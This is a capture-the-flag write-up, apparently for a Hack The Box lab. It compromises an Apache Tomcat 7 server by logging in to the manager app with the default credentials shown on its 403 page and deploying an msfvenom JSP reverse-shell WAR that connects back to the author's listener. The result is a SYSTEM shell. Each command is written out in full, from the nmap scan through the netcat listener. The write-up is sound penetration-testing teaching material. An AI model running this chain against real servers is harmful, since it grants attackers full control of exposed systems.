 Start with a ping
```shell-session
┌──(strombach㉿HTBmachine)-[~]
└─$ ping 10.129.39.22
PING 10.129.39.22 (10.129.39.22) 56(84) bytes of data.
64 bytes from 10.129.39.22: icmp_seq=1 ttl=127 time=37.8 ms
64 bytes from 10.129.39.22: icmp_seq=2 ttl=127 time=37.5 ms
64 bytes from 10.129.39.22: icmp_seq=3 ttl=127 time=37.3 ms
^C
--- 10.129.39.22 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 37.279/37.526/37.774/0.202 ms
```

Nmap scan:
I found  the port 8080 running Apche Tomcat/Coyote JSP engine 1.1.
```shell-session
┌──(strombach㉿HTBmachine)-[~]
└─$ nmap 10.129.39.22 -sV -sC -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-12 13:17 CET
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 85.58% done; ETC: 13:19 (0:00:20 remaining)
Nmap scan report for 10.129.39.22
Host is up (0.038s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.13 seconds
```

Trying to access the web server through a web browser. This is what we see:
![](Pasted%20image%2020250212150429.png)

![](Pasted%20image%2020250212150910.png)

An Alert windows appear, trying {admin:admin}
![](Pasted%20image%2020250212151045.png)

When entering wrong username or password 403 page appears.
![](Pasted%20image%2020250212151106.png)
In this page We Find this:
```shell-session
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```
Let's try this as credentials in the alert popup.

By using this example password we can access both Server Status
![](Pasted%20image%2020250212151642.png)

And

Manager App
![](Pasted%20image%2020250212151812.png)

Using the WAR file deploy button at the bottom we can upload war files that adds a path trying to execute the code.
![](Pasted%20image%2020250212160404.png)

Let's try to create a reverse shell and upload it to the server using msfvenom.
```shell-session
┌──(strombach㉿HTBmachine)-[~]
└─$ msfvenom -l payloads | grep jsp    
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
```

```shell-session
┌──(strombach㉿HTBmachine)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.69 LPORT=4444 -f war > shell.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
```

Uploaded successful and the server started running the code.
![](Pasted%20image%2020250212160444.png)

Start listening with netcat
```shell-session
nc -lvnp 4444
```


![](Pasted%20image%2020250212163722.png)

We see that we got access to the System account. The most powerful account and builtin account in Windows.
```shell-session
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

By exploring the system we finally find the file containing both flags.
![](Pasted%20image%2020250212164339.png)